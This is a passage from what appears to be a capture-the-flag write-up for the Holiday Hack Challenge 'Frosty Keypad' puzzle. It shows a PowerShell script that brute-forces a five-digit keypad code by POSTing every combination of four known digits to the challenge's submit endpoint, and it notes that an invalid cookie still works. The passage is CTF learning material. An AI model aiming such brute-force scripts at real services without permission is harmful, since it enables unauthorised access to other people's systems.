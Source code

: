 > -ContentType "application/json" `
> -Body "{`"answer`":`"26788`"}"
> ~~~
> 
> Using relevant parts of the script above, we can create a script that brute-forces the correct code:

> [!TIP]
> The brute-force script works even with an invalid cookie and id ¯\\\_(ツ)\_/¯

```
$digits = 2,6,7,8

# Create web session with cookie
$session = New-Object Microsoft.PowerShell.Commands.WebRequestSession
$session.UserAgent = "JollyFrogs PowerShell BruteForcer!"
$session.Cookies.Add((New-Object System.Net.Cookie("CreativeCookieName", "¯\_(ツ)_/¯", "/", "hhc24-frostykeypad.holidayhackchallenge.com")))

$combinations = foreach ($d1 in $digits) {
    foreach ($d2 in $digits) {
        foreach ($d3 in $digits) {
            foreach ($d4 in $digits) {
                foreach ($d5 in $digits) {
                    $combo = "$d1$d2$d3$d4$d5"
                    # Check if all required digits are present
                    if (($combo.Contains("2")) -and 
                        ($combo.Contains("6")) -and 
                        ($combo.Contains("7")) -and 
                        ($combo.Contains("8"))) {
                        $combo
                    }
                }
            }
        }
    }
}

Write-Host "Total combinations to try:" $combinations.Count

foreach ($code in $combinations) {
    Write-Host "Trying combination: $code"
    try {
        $response = Invoke-WebRequest -UseBasicParsing `
            -Uri "https://hhc24-frostykeypad.holidayhackchallenge.com/submit?id=1337" `
            -Method "POST" `
            -WebSession $session `
            -Headers @{
                "authority"="hhc24-frostykeypad.holidayhackchallenge.com"
                "method"="POST"
                "path"="/submit?id=1337"
                "scheme"="https"
            } `
            -ContentType "application/json" `
            -Body "{`"answer`":`"$code`"}"

        if ($response.StatusCode -eq 200) {
        
            Write-Host "SUCCESS! The correct code is: $code" -ForegroundColor Green
            if ($code -ne "72682") { break }
        }
    }
    catch {
        $statusCode = $_.Exception.Response.StatusCode.value__
        if ($statusCode -eq 400) {
```